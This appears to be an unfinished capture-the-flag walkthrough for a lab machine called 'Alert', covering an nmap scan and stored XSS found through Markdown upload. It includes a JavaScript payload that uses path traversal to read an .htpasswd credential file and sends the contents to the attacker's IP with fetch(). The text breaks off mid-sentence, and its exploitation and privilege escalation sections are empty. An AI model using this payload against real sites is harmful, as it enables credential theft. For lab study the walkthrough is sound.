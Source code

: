 # Alert walkthrough

Tags: Stored XSS, LFI, JavaScript scripting, PHP reverse shell

## Connecting to Alert machine

Target IP address:      10.10.11.44
Target Domain:          alert.htb

Attacker IP address:    10.10.16.2

Command to connect:     `sudo openvpn /path/to/ovpn`

## Scanning and Enumeration

### Nmap scan

After the VPN connection is established and the machine is started, we can start scanning the target machine using `nmap`. The command used is:

`nmap --min-rate 3000 -p- -A 10.10.11.44`

The flags used are:

1. `--min-rate` : to specify the minimum rate of packets per second to send to the target machine
2. `-p-`        : to specify the scan should be performed on all ports
3. `-A`         : to enable OS detection and version detection

The results of the `nmap` scan is as below:

```bash
nmap --min-rate 3000 -p- -A 10.10.11.44
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-23 21:11 +08
Nmap scan report for 10.10.11.44
Host is up (0.020s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp    open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://alert.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
12227/tcp filtered unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=12/23%OT=22%CT=1%CU=39556%PV=Y%DS=2%DC=T%G=Y%TM=676
OS:96187%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A
OS:)SEQ(SP=104%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M542ST11NW7%O2=M542
OS:ST11NW7%O3=M542NNT11NW7%O4=M542ST11NW7%O5=M542ST11NW7%O6=M542ST11)WIN(W1
OS:=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O
OS:=M542NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N
OS:)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=
OS:S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF
OS:=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=
OS:G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 199/tcp)
HOP RTT      ADDRESS
1   65.75 ms 10.10.16.1
2   12.89 ms 10.10.11.44

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.24 seconds``
```

Based on the results above, the only open ports are port 22 (SSH) and port 80 (HTTP). Port 12227 is filtered so it shouldn't contain anything that might be useful for us right now.

Currently, the only port that interests us is port 80 and looking at the scan results, it seems that the domain of the target machine is `alert.htb`. So, we can now asssociate the target IP address (10.10.11.44) to this new-found domain in `/etc/hosts`.

Once that is done, we can just input `http://alert.htb` into the browser to visit the target website that is being served from the target's port 80.

### Visiting the website

Once we visit the website, we will be greeted with a page that allows us to upload a file , specifically an `.md` file. Aside from that, there is a **Contact Us** page that allows us to input any text, and an **About Us** page that doesn't do anything interesting for us. The main targets would be the main page where we can upload Markdown files and possibly the **Contact Us** page.

So, the first thing to try out right now is to upload a Markdown file and once the file is uploaded, it will parse the Markdown file and show us the contents, formatted correctly based on Markdown syntax. By intercepting the requests, we can modify the contents of the Markdown file we uploaded into JavaScript code and perform Cross-Site Scripting.

![XSS](./Screenshots/XSS%20possible.png)

![XSS 2](./Screenshots/XSS%20possible%20(website).png)

There is also a Share button at the bottom right corner of the page. If we click on the button, with the XSS script in the Markdown, the script will still be executed. This means that this is a Stored XSS attack where the script is stored on the server and will be executed whenever the page is loaded. This is a very useful if we can get this to be executed by an administrator or a root user.

Since we now have an XSS vulnerability, we can try uploading the "Share" link through the **Contact Us** page. So first, we need to get a XSS payload that can transmit useful information. The payload will look something like this:

```javascript
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.16.2:8888/?file_content=" + encodeURIComponent(data));
  });
</script>
```

By using this script, we can get the server to provide us with the contents of the `.htpasswd` file and to receive the contents we will need to first 

## Exploitation

## Privilege Escalation
